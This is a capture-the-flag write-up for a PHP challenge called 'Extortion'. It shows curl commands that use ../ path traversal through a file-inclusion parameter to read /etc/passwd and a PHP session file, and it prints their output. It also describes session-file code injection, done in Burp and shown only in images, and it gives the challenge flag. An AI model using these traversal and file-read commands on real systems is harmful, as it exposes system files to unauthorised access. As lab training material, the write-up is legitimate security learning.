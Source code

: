 # Extortion
## Enumeration
Clicking around I notice a parameter in the url that might be injectable.
```html
http://138.68.168.137:32195/?f=airship.php
```

I send the command over to curl to test for an LFI by attempting to view /etc/passwd. It appears the command worked succesfully.

```bash
curl http://138.68.168.137:32195/?f=../../../../etc/passwd

...snip...

 React.createElement("img", { src: "https://media4.giphy.com/media/26BoCVdjSJOWT0Fpu/source.gif", className: "App-logo", alt: "logo" }), /*#__PURE__*/
    React.createElement("p", null, "root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
"), /*#__PURE__*/
)));
}
</script>
</body>
</html>
```

## Locating the flag
Unfortunetly the flag isn't just named flag, so I had to get creative on how to gain execution on the system. I knew the system was using PHP, so I checked for logs, environ variables for something I could control. I ended up finding a PHPSESSID being set when sending a ship home.
![Image](<../Pasted image 20210422211651.png>)

I sen this request over to burpsuite and injected some PHP code.

[Image](<../Pasted image 20210422211726.png>)

I can now request my PHP sess id from the _/tmp/sess_phpsessid_ file. 

```bash
curl 'http://138.68.168.137:32195/?f=../../../../tmp/sess_b53f826be5c7e28e0bfb18572c3102f4'
..snip...
 React.createElement("p", null, "plane|s:54:"/var/www/html/flag_ffacf623917dc0e2f83e9041644b3e98.txt
";"), /*#__PURE__*/
...snip...
```

Voila, I had located the flag on this sytem, all that was left is to request the file.

```bash
curl 'http://138.68.168.137:32195/?f=../../../..//var/www/html/flag_ffacf623917dc0e2f83e9041644b3e98.txt'
...snip...
React.createElement("p", null, "CHTB{th4ts_4_w31rd_3xt0rt10n_@#$?}
...snip...
```
